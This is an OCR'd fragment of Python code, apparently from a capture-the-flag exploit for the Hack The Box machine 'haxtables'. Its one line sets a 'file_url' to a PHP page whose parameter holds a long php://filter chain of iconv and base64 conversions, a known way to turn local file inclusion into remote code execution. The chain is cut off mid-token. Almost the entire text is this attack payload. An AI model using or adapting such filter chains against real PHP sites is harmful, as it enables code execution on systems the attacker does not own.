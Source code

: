 ```python
        'file_url' : 'image.haxtables.htb/actions/action_handler.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|co
```